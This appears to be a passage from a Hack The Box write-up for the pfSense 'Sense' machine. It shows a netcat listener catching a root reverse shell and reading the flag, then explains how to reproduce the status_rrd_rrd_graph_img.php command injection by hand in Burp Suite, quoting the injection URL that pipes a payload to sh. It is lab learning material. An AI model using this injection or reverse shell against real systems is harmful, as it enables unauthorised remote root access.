 ```
nc -nlvp 443

listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.60] 10317
sh: can't access tty; job control turned off

whoami
root

cat /root/root.txt
d08c32a5d4..
```

Done!
When I searched searchsploit for a vulnerability I noticed that the bug was in 'status_rrd_rrd_graph_img.php', I researched about this and I would like to exploit it manually from BrupSuite, let's see how to do it.

## Exploiting pfsense manually.

### Open BurpSuite and set the target.
![](/assets/images/htb-writeup-sense/set-target.png)

### Configure the browser with the proxy to intercept the requests, I use [FoxyProxy](https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/) and let's analyze the above script made in python3.

Full script: searchsploit -x php/webapps/43560.py or [Exploit-db](https://www.exploit-db.com/exploits/43560)

In line 58 we can see: exploit_url = "https://" + rhost + "/status_rrd_rrd_graph_img.php?database=queues; "+"printf+" + "'" + payload + "'|sh". This is where the reverse shell payload will be injected. What we have to do is to delete the part of the payload to be able to inject the commands that we want.
I always recommend to read the scripts and if you use it, understand what they do, and if you can try to do it manually, especially to learn and have control at a lower level. 

Then delete the payload and enter the command that we want to be injected, activate the proxy in the browser and intercept the request with BurpSuite to send it to the repeater.
